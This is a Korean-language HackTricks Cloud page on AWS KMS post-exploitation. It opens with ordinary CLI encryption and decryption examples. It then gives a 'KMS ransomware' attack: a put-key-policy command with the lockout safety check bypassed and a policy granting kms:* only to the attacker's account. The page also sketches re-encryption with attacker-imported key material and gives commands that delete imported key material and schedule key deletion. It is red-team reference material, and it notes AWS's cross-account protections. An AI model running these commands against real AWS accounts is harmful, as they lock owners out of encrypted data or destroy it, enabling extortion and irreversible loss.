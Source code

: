 # AWS - KMS 포스트 익스플로이테이션

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}

## KMS

자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### 정보 암호화/복호화

{% hint style="success" %}
파일 내의 데이터를 복호화하려면 파일이 base64로 인코딩된 데이터가 아닌 이진 데이터를 포함해야 합니다.
{% endhint %}

* **대칭** 키 사용
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* **비대칭** 키 사용:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS 랜섬웨어

KMS에 대한 권한이 있는 공격자는 키의 KMS 정책을 수정하고 **자신의 계정에 대한 액세스를 부여**하여 정당한 계정에 부여된 액세스를 제거할 수 있습니다.

그런 다음, 정당한 계정 사용자는 이러한 키로 암호화된 서비스의 정보에 접근할 수 없게 되어 계정에 대한 쉽지만 효과적인 랜섬웨어가 생성됩니다.

{% hint style="warning" %}
**AWS 관리 키는 이 공격의 영향을 받지 않습니다**, 오직 **고객 관리 키**만 영향을 받습니다.

또한 **`--bypass-policy-lockout-safety-check`** 매개변수를 사용해야 할 필요성을 주목하십시오(웹 콘솔에서 이 옵션이 없으면 이 공격은 CLI에서만 가능합니다).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
정책을 변경하고 외부 계정에만 액세스를 부여한 후, 이 외부 계정에서 **원래 계정에 대한 액세스를 다시 부여하는 새로운 정책을 설정하려고 하면, 할 수 없습니다**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### 일반 KMS 랜섬웨어

#### 글로벌 KMS 랜섬웨어

글로벌 KMS 랜섬웨어를 수행하는 또 다른 방법이 있으며, 다음 단계를 포함합니다:

* 공격자가 가져온 **키 자료로 새로운 키를 생성**
* **이전 버전으로 암호화된 오래된 데이터 재암호화** 
* **KMS 키 삭제**
* 이제 원래 키 자료를 가진 공격자만 암호화된 데이터를 복호화할 수 있습니다.

### 키 파괴
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
AWS는 이제 **이전 작업이 교차 계정에서 수행되는 것을 방지합니다:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}

